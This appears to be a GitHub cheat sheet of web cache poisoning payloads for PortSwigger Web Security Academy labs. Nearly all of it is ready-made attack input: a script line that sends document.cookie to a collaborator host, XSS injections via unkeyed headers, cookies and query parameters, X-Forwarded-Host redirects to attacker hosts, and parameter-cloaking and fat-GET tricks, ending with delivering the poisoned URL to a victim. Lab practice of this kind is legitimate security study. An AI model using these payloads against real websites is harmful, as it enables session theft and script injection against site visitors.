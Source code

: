 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:
```
  go to the **exploit server** ->

  in "file": /recources/js/tracking.js
  in "body": document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```
![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``
## Web cache poisoning with an unkeyed cookie:
``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.
``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``
## Web cache poisoning via an unkeyed query string
``
/?search=evil'/><script>alert(1)</script>
Origin:x
``
## Web cache poisoning via an unkeyed query parameter
``
GET /?utm_content=123'/><script>alert(1)</script>
``
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
## Web cache poisoning via a fat GET request
``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``
## URL normalization
``
/random"><script>alert(1)</script> 
``
or
``
GET /random</p><script>alert(1)</script><p>foo
``
Cache this path and then deliver URL to the victim
